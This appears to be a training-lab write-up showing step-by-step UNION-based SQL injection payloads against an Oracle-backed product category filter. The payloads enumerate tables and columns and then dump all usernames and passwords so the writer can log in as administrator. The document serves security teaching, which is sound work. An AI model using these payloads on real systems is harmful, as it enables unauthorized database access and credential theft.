

# SQL injection attack, listing the database contents on Oracle

## Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so it is possible to use a UNION attack to retrieve data from other tables.

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```text
'+UNION+SELECT+'abc','def'+FROM+dual--
```
    
3. Use the following payload to retrieve the list of tables in the database:

```text
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```text
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GYCDOW'--
```
    
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```text
'+UNION+SELECT+USERNAME_WWIUXV,+PASSWORD_GFLFLH+FROM+USERS_GYCDOW--
```
    
8. Find the password for the administrator user, and use it to log in.



## Exploitability

The application has a login function, and the database contains a table that holds usernames and passwords. An attacker needs to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users, and login as administrator. 
